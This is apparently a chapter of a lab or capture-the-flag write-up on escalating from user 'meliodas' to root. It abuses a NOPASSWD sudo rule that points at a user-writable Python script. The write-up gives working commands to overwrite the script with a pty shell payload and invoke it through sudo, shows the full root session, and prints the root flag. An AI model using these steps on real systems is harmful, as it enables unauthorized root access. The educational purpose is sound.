


# 07 — Privilege Escalation

## Overview

Local enumeration in the previous phase surfaced a root-owned script (`bak.py`) and a hint (`.sudo_as_admin_successful`) that the current user had `sudo` privileges. This phase covers confirming a `sudo` NOPASSWD misconfiguration and abusing it to obtain a root shell.

## Objectives

- Review the contents of `bak.py` to understand its intended function.
- Check `sudo -l` to identify what the current user is permitted to run as root without a password.
- Abuse the identified misconfiguration to escalate from `meliodas` to `root`.
- Confirm privilege escalation and read the root flag.

## Important Terminology

| Term | Definition |
|---|---|
| `sudo -l` | Lists the commands the current user is permitted to run via `sudo`, and under what conditions |
| NOPASSWD | A `sudoers` directive allowing a specified command to be run via `sudo` without re-prompting for a password |
| Wildcard sudoers rule | A `sudoers` entry using a glob (e.g., `/usr/bin/python*`) to match multiple binaries/versions with a single rule |
| PTY | Pseudo-terminal — a terminal-like interface used to upgrade a raw/non-interactive shell into a fully interactive one |

## Concepts Explained

The core issue in this phase is a classic **`sudo` NOPASSWD misconfiguration combined with a user-writable target script**: the `sudoers` policy permits running a *specific script* as root without a password, but that script itself lives in a location the invoking user can modify. When the permission is granted to "run this path as root" rather than to a fixed, integrity-protected binary, and the path is writable by the invoking user, the user can substitute the script's contents with anything they choose — and it will execute with root privileges.

## Commands and Syntax

### Reviewing `bak.py`

**Purpose:** Understand what the root-owned script does before deciding how it might be leveraged.

**Syntax:**
```bash
cat bak.py
```

**Observed Result:**
```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

**Why it was used:** The script's stated purpose was a routine backup job — zipping `/var/www/html` into `/var/backups/website.zip`. Understanding this confirmed it was a legitimate-looking maintenance script rather than something inherently malicious, which made the next check (`sudo -l`) important to understand *how* it was intended to be invoked.

### Checking `sudo` permissions

**Purpose:** Determine what the current user can run as root.

**Syntax:**
```bash
sudo -l
```

**Observed Result:**
```text
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

**Why it was used:** This confirmed the misconfiguration: `meliodas` can run **any binary matching `/usr/bin/python*`** (e.g., `python`, `python2`, `python3`) against the fixed argument `/home/meliodas/bak.py`, as root, with no password required.

### Verifying write access and initial (failed) payload attempt

**Purpose:** Confirm the script file itself is writable by the current user, and attempt to overwrite it with a payload.

**Syntax (first attempt — failed):**
```bash
echo 'python -c 'import os; os.system("/bin/sh")'' > bak.py
```

**Observed Result:**
```text
-bash: syntax error near unexpected token `"/bin/sh"'
```

**Why it failed:** The quoting in this one-liner was invalid for the shell — nesting single quotes inside an already single-quoted string breaks the string boundary, causing `bash` to misparse the command before `echo` ever ran.

**Syntax (corrected payload):**
```bash
echo 'import pty;pty.spawn("/bin/bash")' > bak.py
```

**Explanation:** This overwrites `bak.py` with a one-line Python payload that spawns an interactive Bash shell via the `pty` module. A subsequent `ls -la` (not shown above) confirmed the file was writable by `meliodas` at the time of this attempt, even though the file had originally been owned by `root`.

### Invoking the payload with elevated privileges

**Purpose:** Trigger the malicious `bak.py` content as root via the permitted `sudo` rule.

**First attempt (failed — incorrect invocation):**
```bash
sudo bak.py
```
```text
[sudo] password for meliodas:
sudo: bak.py: command not found
```

**Why it failed:** The `sudoers` rule permits `/usr/bin/python*` to be run *with the argument* `/home/meliodas/bak.py` — it does not permit executing `bak.py` directly as a command. `sudo bak.py` does not match the permitted rule at all, so `sudo` fell back to requesting a password (which was not supplied) and then reported the file as not found on the `secure_path`.

**Correct invocation:**
```bash
sudo python /home/meliodas/bak.py
```

**Explanation:** This exactly matches the permitted `sudoers` pattern (`/usr/bin/python*` interpreting `/home/meliodas/bak.py`), so it runs without a password prompt — and because `bak.py` had been overwritten with the `pty.spawn` payload, it executed that payload as root instead of the original backup logic.

**Observed Result:**
```text
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
root@ubuntu:~# whoami
root
root@ubuntu:~# ls
bak.py  user.txt
root@ubuntu:~# cd ..
root@ubuntu:/home# ls
meliodas
root@ubuntu:/home# cd ..
root@ubuntu:/# ls
bin   etc          initrd.img.old  lost+found  opt   run    sys  var
boot  home         lib             media       proc  sbin   tmp  vmlinuz
dev   initrd.img   lib64            mnt         root  srv    usr  vmlinuz.old
root@ubuntu:/# cd /root/
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```

**Why it was used:** To trigger execution of the substituted `bak.py` content under the NOPASSWD `sudo` rule, obtaining an interactive root shell.

## Command Breakdown

| Command | Purpose |
|---|---|
| `cat bak.py` | Review the original script contents |
| `sudo -l` | Enumerate permitted `sudo` commands for the current user |
| `echo 'import pty;pty.spawn("/bin/bash")' > bak.py` | Overwrite the writable, root-executed script with a shell-spawning payload |
| `sudo python /home/meliodas/bak.py` | Trigger the payload as root via the matching `sudoers` rule |
| `whoami` | Confirm the resulting privilege level |
| `cat root.txt` | Read the confirmed root-level flag |

## Examples

```bash
sudo -l
echo 'import pty;pty.spawn("/bin/bash")' > bak.py
sudo python /home/meliodas/bak.py
whoami
cat /root/root.txt
```

## Screenshots





## Observations

- The `sudoers` rule granted privilege based on a **file path**, not a fixed, protected binary — and that path was writable by the same user granted the privilege. This combination is the entire vulnerability.
- The wildcard `/usr/bin/python*` in the rule was not itself the weakness — any single interpreter path would have been equally exploitable given the writable script target. The wildcard just means `python`, `python2`, or `python3` could all be used interchangeably to trigger it.
- The first exploitation attempt failed purely due to shell quoting, not a flaw in the underlying technique — a useful reminder to separate "the technique didn't work" from "the syntax was wrong."
- `pty.spawn("/bin/bash")` upgraded the resulting shell to a fully interactive TTY, allowing normal shell navigation (`cd`, `ls`) rather than a restricted one-shot command execution context.

## Common Mistakes

- Assuming a wildcard in a `sudoers` rule (`/usr/bin/python*`) is itself the vulnerability — the real issue is a writable script path granted elevated execution, independent of the interpreter wildcard.
- Running `sudo <script-name>` directly instead of matching the exact command form permitted by `sudo -l` (here, invoking the interpreter explicitly against the full script path).
- Getting shell quoting wrong when constructing one-liner Python payloads inside `echo` — using single quotes to wrap a string that itself contains a double-quoted Python string usually works, but nesting the *same* quote character breaks the shell's parsing.
- Forgetting to verify write permissions on the target script (`ls -la`) before assuming an overwrite-based approach will work.

## Notes

- This is a textbook example of a **`sudo` privilege-escalation misconfiguration**: elevated execution rights granted on a mutable file path rather than an immutable, root-owned binary. See [`cheatsheets/privilege-escalation.md`](../../cheatsheets/privilege-escalation.md) for the general vector, and [`cheatsheets/reverse-shells.md`](../../cheatsheets/reverse-shells.md) for related interactive-shell payload patterns.
- The exact step where `bak.py`'s ownership/permissions changed from `root`-owned to writable by `meliodas` was not captured in the terminal session. The notes here document what was directly observed (the file was writable at the time of the overwrite) without inferring an unrecorded cause.

## Additional Context

> [!NOTE]
> The following is supplementary background, not part of the original lab notes.

The general pattern here — a `sudoers` rule permitting `(ALL) NOPASSWD: /usr/bin/<interpreter>* <writable-script-path>` — is a widely documented Linux privilege-escalation vector, distinct from GTFOBins-style "abuse the interpreter's own built-in capabilities" techniques (e.g., `sudo python -c "import os; os.system('/bin/sh')"`, which would apply if the interpreter itself were the permitted target rather than a fixed script). Here, because the permitted command was pinned to a specific script path, the correct technique was to control the *contents* of that path rather than pass arbitrary arguments to the interpreter directly. During this engagement, a Stack Overflow thread on using Python's `pty` module to spawn an interactive shell was consulted as a reference for the payload technique.

## References

- [GTFOBins — python](https://gtfobins.github.io/gtfobins/python/)
- [`sudoers`(5) man page](https://man7.org/linux/man-pages/man5/sudoers.5.html)
- [Python `pty` module documentation](https://docs.python.org/3/library/pty.html)
- Stack Overflow — reference discussion on using Python's `pty.spawn` to obtain an interactive shell (see [`resources/references.md`](../../resources/references.md))

## Key Takeaways

- A `sudo` rule scoped to a *file path* is only as secure as the permissions on that file path — always check both together.
- Exact command matching matters for `sudoers` wildcard rules; `sudo <script>` and `sudo <interpreter> <script-path>` are not interchangeable even when a rule "looks like" it should cover both.
- `python -c 'import pty;pty.spawn("/bin/bash")'` (or the file-based equivalent used here) is a standard technique for obtaining a fully interactive shell once code execution is achieved.
